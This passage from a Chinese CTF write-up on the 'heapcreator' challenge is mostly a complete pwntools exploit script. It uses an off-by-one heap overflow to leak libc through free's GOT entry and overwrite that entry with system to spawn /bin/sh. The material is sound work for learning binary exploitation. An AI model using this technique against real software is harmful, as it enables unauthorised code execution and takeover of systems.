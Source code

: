 然后就是泄露 libc 地址，修改 GOT 表，最后触发 ``system('/bin/sh')``

### EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : heapcreator.py
from pwn import *
context.log_level = 'debug'
p = process("./heapcreator")
elf = ELF("./heapcreator")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create(size,context):
	p.recvuntil("choice :")
	p.sendline("1")
	p.recvuntil("Heap : ")
	p.sendline(str(size))
	p.recvuntil("heap:")
	p.send(context)
def edit(id,context):
	p.recvuntil("choice :")
	p.sendline("2")
	p.recvuntil("Index :")
	p.sendline(str(id))
	p.recvuntil("heap :")
	p.send(context)
def show(id):
	p.recvuntil("choice :")
	p.sendline("3")
	p.recvuntil("Index :")
	p.sendline(str(id))
def free(id):
	p.recvuntil("choice :")
	p.sendline("4")
	p.recvuntil("Index :")
	p.sendline(str(id))
def exit():
	p.recvuntil("choice :")
	p.sendline("5")

# off-by-one
create(0x18,'a'*0x10)#0
create(0x10,'b'*0x10)#1
edit(0,"/bin/sh\x00".ljust(0x18,'a') + "\x41")
free(1)

# leak libc
free_got = elf.got['free']
create(0x30,'a'*0x18+p64(0x21)+p64(0x30)+p64(free_got))
show(1)
p.recvuntil("Content : ")

free_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("free_addr:"+hex(free_addr))
libc_base = free_addr - libc.symbols['free']
log.info("libc_base:"+hex(libc_base))
system = libc_base + libc.symbols['system']
log.info("system:"+hex(system))

edit(1,p64(system))
```

[^1]: fastbin 不与物理地址相邻 fastbin 合并，不与 top chunk 合并
[^2]: 分配的安全检查机制，请看 malloc 函数介绍
